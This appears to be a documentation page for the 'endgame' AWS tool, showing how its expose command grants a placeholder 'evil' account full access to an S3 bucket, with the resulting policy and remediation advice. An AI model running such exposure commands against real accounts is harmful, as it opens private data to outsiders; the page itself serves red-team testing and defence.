 # S3 Buckets

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:evil

endgame expose --service s3 --name test-resource-exposure
```

* To verify that the S3 bucket has been shared with the public, run the following from the victim account:

```bash
aws s3api get-bucket-policy --bucket test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The response of the `get-bucket-policy` command will return the below. Observe how the Evil Principal (`arn:aws:iam::999988887777:evil`) is granted full access to the S3 bucket.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:evil\"},\"Action\":\"s3:*\",\"Resource\":[\"arn:aws:s3:::test-resource-exposure\",\"arn:aws:s3:::test-resource-exposure/*\"]}]}"
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that  S3 Buckets are only shared with trusted accounts, and that the trusted accounts truly need access to the S3 Bucket.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your S3 Buckets**: Tightly control access to the following IAM actions:
  - [s3:GetBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_GetBucketPolicy.html): _Grants permission to return the policy of the specified bucket. This includes information on which AWS accounts and principals have access to the bucket._
  - [s3:ListAllMyBuckets](https://docs.aws.amazon.com/AmazonS3/latest/API/API_ListBuckets.html): _Grants permission to list all buckets owned by the authenticated sender of the request_
  - [s3:PutBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_PutBucketPolicy.html): _Grants permission to add or replace a bucket policy on a bucket._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

- [aws s3api put-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/put-bucket-policy.html)
- [aws s3api get-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/get-bucket-policy.html)